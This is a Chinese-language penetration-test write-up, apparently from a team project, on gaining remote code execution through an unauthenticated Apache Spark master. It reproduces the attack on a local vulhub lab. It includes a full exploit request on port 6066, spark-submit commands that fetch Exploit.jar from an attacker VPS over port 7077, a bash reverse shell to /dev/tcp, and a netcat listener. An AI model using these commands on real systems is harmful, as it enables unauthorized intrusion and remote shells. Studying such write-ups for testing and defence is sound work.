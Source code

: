 ### 坑点总结
1、阿里云vps开启nc监听时，需要加个参数n，即nc -lnvvvp 101.200.xx.xx 8888，具体原因未知  
2、当payload位于github上时，需考虑目标可能获取不到  

### 0x01 打点发现
团队一起做项目，同事发现一个Apache Spark未授权页面，我这边尝试打点，遂有此文
### 0x02 初次尝试
目标地址：  http://182.61.xxx.xxx:8080  
网上搜索针对Apache Spark的漏洞复现，用POC直接打，不出意外的攻击失败  
### 0x03 本地调试
本地搭建环境，使用vulhub项目中的环境：https://github.com/vulhub/vulhub/tree/master/spark/unacc  
（这里记录一下：搭建环境时，发现端口被占用，netstat -antup查不到占用端口的pid和进程名，原因是权限不够，改用sudo netstat -antup可查到占用端口的pid和进程名，有时容易忽略使用sudo）  

环境搭建完之后，访问：[http://192.168.202.128:8080](http://192.168.202.128:8080)，能够成功访问，说明环境搭建成功  
访问端口6066，能够成功访问，而目标不能访问，说明目标关闭了端口6066  
当前漏洞的利用可通过2个端口：6066、7077（防守方容易忽略端口7077），且目标没关闭7077端口，又看到希望了  
首先测试本地6066端口的漏洞利用，发送如下burp请求  
```
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "id_whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
```
漏洞利用失败  

思考了一下，可能是目标不能访问github，导致获取不到Exploit.jar，将Exploit.jar放置到自己的vps上，修改request后，重新发送请求，成功获得响应  
响应中包含driverId的值，用响应中driverId的值替换下面driverId的值，访问如下地址
```
http://192.168.202.128:8081/logPage/?driverId=driver-20211014035556-0013&logType=stdout
```
页面会显示成功执行后的结果  

测试本地7077端口的漏洞利用
```
./spark-submit --master spark://192.168.202.128:7077 --deploy-mode cluster --class Exploit http://101.200.xx.xx:8000/Exploit.jar id
```
spark-submit下载链接：https://archive.apache.org/dist/spark/spark-2.4.3/spark-2.4.3-bin-hadoop2.7.tgz  
（这里记录一下：下载spark-submit时不要下载源码包，要下载二进制安装包，否则会报错）  
查看执行结果还是通过上述方式，发现成功执行了命令  

通过端口7077反弹shell  
直接执行
```
./spark-submit --master spark://192.168.202.128:7077 --deploy-mode cluster --class Exploit http://101.200.xx.xx:8000/Exploit.jar "bash -i >& /dev/tcp/101.200.xx.xx/8888 0>&1"
```
vps上并没有收到反弹shell  

思考了一下，可能是bash反弹shell中特殊字符的问题，对payload进行base64编码，可通过此网站：http://www.jackson-t.ca/runtime-exec-payloads.html  
编码后，发送请求，仍然没有收到反弹shell

继续排查，查看Exploit.jar的源代码会发现，原作者是对命令进行逗号分隔，导致base64编码后的命令被逗号分隔，如下
```
String[] cmds = args[0].split(",");

bash -c {echo,YmFzaCAtaSA+JiAvZGxxxxxxxxxxxxEuMjAwLjE0NC41NS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}
```
知道问题了，我们可以将逗号分隔改为下划线分隔，并打包为jar包（如果仔细看上面的burp请求，会发现我已经在命令之间加了一个下划线）  

再次执行后成功接收到反弹shell  
![image](./pic/5.png)  

### 参考链接：  
https://www.cnblogs.com/mutudou/p/14685277.html  
https://medium.com/@Wh0ale/apache-spark-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E-ada9eb02af65  
https://github.com/vulhub/vulhub/tree/master/spark/unacc  
https://github.com/aRe00t/rce-over-spark/blob/master/Exploit.java  
